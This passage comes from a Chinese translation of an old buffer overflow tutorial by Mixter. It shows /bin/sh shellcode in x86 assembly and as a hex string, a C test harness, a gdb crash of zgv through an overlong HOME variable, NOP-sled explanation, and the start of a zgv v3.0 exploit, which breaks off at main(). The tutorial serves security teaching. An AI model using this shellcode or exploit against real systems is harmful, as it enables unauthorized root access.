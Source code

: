 ```
call -0x1c
.string "/bin/shX"/* X is overwritten by movb %eax,0x7(%esi) */
code_end:
```

‍‍‍‍（通过0×0相对偏移了0×17和-0x1c，编译，反汇编，看看shell代码的大小。）

这是一个正在运行着的shellcode，虽然很小。你至少要反汇编exit()来调用和依附它（在调用之前）。完成shellcode的正真的意义还包括避免任何二进制0代码和修改它，二进制代码不包含控制和小写字符，这将会过滤掉一些问题程序。大多数是通过自己修改代码来完成的，如我们使用的mov %eax,0×7(%esi)指令。我们用来取代X，但是在shellcode初始化中没有。

让我们测试下这些代码，把上面的代码保存为code.S同时把下面的文件保存为code.c：‍‍‍‍

```
extern void code_start();  extern void code_end();  #include <stdio.h> main() { ((void (*)(void)) code_start)(); }   # cc -o code code.S code.c  # ./code bash#
```

‍‍现在你可以把shellcode转移到16进制字符缓冲区。最好的方法就是把它打印出来：‍‍

```
#include <stdio.h>  extern void code_start(); extern void code_end(); main() { fprintf(stderr,"%s",code_start);
```

‍‍通过使用aconv –h或bin2c.pl来解析它，可以在http://www.dec.net/~dhg或是http://members.tripod.com/mixtersecurity上找到工具。‍‍

**5 写一个利用**

‍‍让我们看看如何把返回地址指向的shellcode进行压栈，写了一个简单的例子。我们将要采用zgv，因为这是可以利用的一个最简单的方法。‍‍

```
# export HOME=`perl -e ';printf "a" x 2000''
# zgv
Segmentation fault (core dumped)
# gdb /usr/bin/zgv core
#0  0x61616161 in ?? ()
(gdb) info register esp
     esp: 0xbffff574 -1073744524
```

‍‍‍‍那么，在故障时间时在栈顶，安全的假设是我们能够使用这作为我们shellcode的返回地址。

现在我们要在我们的缓冲区前增加一些NOP指令，所以我们没有必要关注对于内存中的精确开始我们shellcode预测的100%正确。这个函数将会在我们的shellcode之前返回到栈，通过使用NOPs的方式来初始化JMP命令，跳转到CALL，跳转到popl，在栈中运行我们的代码。

记住，栈是这样的。在最低级的内存地址，ESP指向栈的顶部，初始变量被储存，即缓冲器中的zgv储存了HOME环境变量。在那之后，我们保存了EBP和前一个函数的返回地址。我们必须要写8个字节或是更多在缓冲区后面，用栈中的新的地址来覆盖返回地址。

Zgv的缓冲器有1024个字节。你可以通过扫视代码来发现，或是通过在脆弱的函数中搜索初始化的subl $0×400,%esp (=1024)。我们可以把这些放在一起来利用。‍‍‍‍

**5a zgv攻击实例**

```
/*                   zgv v3.0 exploit by Mixter
          buffer overflow tutorial - http://1337.tsx.org

        sample exploit, works for example with precompiled
    redhat 5.x/suse 5.x/redhat 6.x/slackware 3.x linux binaries */

#include <stdio.h> #include <unistd.h> #include <stdlib.h>  
/* This is the minimal shellcode from the tutorial */
static char shellcode[]=
"\xeb\x17\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d"
"\x4e\x08\x31\xd2\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58";

#define NOP     0x90
#define LEN     1032
#define RET     0xbffff574

int main()
{
```